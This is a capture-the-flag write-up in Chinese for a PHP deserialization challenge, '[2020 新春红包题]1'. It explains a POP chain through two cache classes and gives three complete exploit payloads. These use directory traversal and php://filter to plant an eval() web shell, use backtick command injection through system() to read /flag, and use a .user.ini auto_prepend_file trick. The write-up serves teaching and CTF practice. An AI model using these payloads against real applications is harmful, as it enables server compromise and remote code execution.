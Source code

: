 # \[2020 新春红包题]1

## \[2020 新春红包题]1

## 考点

* PHP代码审计
* 文件上传目录进行拼接，可以使用`/../`截断
* 使用substr或其他类似函数限制文件后缀，可以使用`/.`绕过
* 在shell中，反引号的优先级是高于引号的，所以会先执行反引号中的内容，然后再将执行结果拼接成一个新的命令

## wp

给了源码，和\[EIS 2019]EzPOP类似，反序列化由`__destruct` 入手，从A类开始

```php
class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }
    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);    //array(10) { ["path"]=> int(0) ["dirname"]=> int(1) ["basename"]=> int(2) ["extension"]=> int(3) ["filename"]=> int(4) ["size"]=> int(5) ["mimetype"]=> int(6) ["visibility"]=> int(7) ["timestamp"]=> int(8) ["type"]=> int(9) } 

        // 2.如果是二维数组，进入if，否则直接返回
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
    
    public function getForStorage() {
        // cache是个数组，cleaned也是个数组
        $cleaned = $this->cleanContents($this->cache);
        // 3. 把数组转成json字符串返回
        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();
        // 4.store是B类
        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {    // 1.autosave=false
            $this->save();
        }
    }
}
```

A类的大概逻辑写到了上面的注释中，再看B类

```php
class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;  // 3.文件名随机化
        if(substr($cache_filename, -strlen('.php')) === '.php') {  // 4.name后四位不能是.php
          die('?');
        }
        return $cache_filename;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
    
    // $this->store->set($this->key, $contents, $this->expire);
    // name是key，value是contents
    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        $expire = $this->getExpireTime($expire); // 1.expire转为int型
        $filename = $this->getCacheKey($name);   // 2.对文件使用uniqid函数重命名，且不能包含.php,这里也是和原题不同的地方

        $dir = dirname($filename);
        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }
        $data = $this->serialize($value);
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }
        // php://filter绕过死亡exit
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return $filename;
        }
        return null;
    }
}
```

本题与\[EIS 2019]EzPOP的区别是，A类中的key后四位不能是`.php` ，并且用`uniqid()`伪随机函数重命名文件。

### 第一种做法

由于文件名是直接使用`.` 拼接的，这样就会造成目录穿越，并且可以在文件末尾可以使用`/.` 绕过后缀限制。

```php
<?php
$filename =  uniqid()."/../uploads/shell.php/.";
$dir = dirname($filename);
echo $dir;
// 624713fa232c2/../uploads/shell.php
```

payload

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = '/../uploads/shell.php/.';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

### 第二种做法

在创建文件后，它执行了`$data = $this->serialize($data)` 这段代码，而serialize函数可以使用system，`$data` 可以使用包含\`\`\`\` 的字符串

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

如果让A的cache为`['`cat /flag > ./flag.php`']` ，B的options\['serialize']为`system` ，那么最后执行的语句就是

```php
system('[["`cat \/flag > .\/flag.php`"],true]');
```

> 在shell中，反引号的优先级是高于引号的，所以会先执行反引号中的内容，然后再将执行结果拼接成一个新的命令

### 第三种做法

与第一种大同小异

先写一个 .user.ini，然后写一个 .jpg 里面带马，使其追加到其他 php 后面作为 php 执行即可

包含shell的图片

```php
$b = new B();
$b->writeTimes = 0;
$b -> options = array('serialize' => "base64_decode", 
                      'data_compress' => false,
                      'prefix' => "php://filter/write=convert.base64-decode/resource=uploads/moyu");

$a = new A($store = $b, $key = "/../../aaaaaa.jpg", $expire = 0);
$a->autosave = false;
$a->cache = array();
$a->complete = base64_encode('qaq'.base64_encode('<?php @eval($_POST["moyu"]);?>'));

echo urlencode(serialize($a));
```

然后上传.user.ini

```php
$b = new B();
$b->writeTimes = 0;
$b -> options = array('serialize' => "base64_decode", 
                      'data_compress' => false,
                      'prefix' => "php://filter/write=convert.base64-decode/resource=uploads/moyu");

$a = new A($store = $b, $key = "/../../.user.ini", $expire = 0);
$a->autosave = false;
$a->cache = array();
$a->complete = base64_encode('qaq'.base64_encode("\nauto_prepend_file=aaaaaa.jpg"));

echo urlencode(serialize($a));
```

## 小结

1. [http://althims.com/2020/01/29/buu-new-year/](http://althims.com/2020/01/29/buu-new-year/)
2. [https://www.zhaoj.in/read-6397.html](https://www.zhaoj.in/read-6397.html)
3. [https://www.anquanke.com/post/id/194036](https://www.anquanke.com/post/id/194036)
4. 修改自[\[EIS 2019\]EzPOP](../php-fan-xu-lie-hua/eis-2019-ezpop.md)
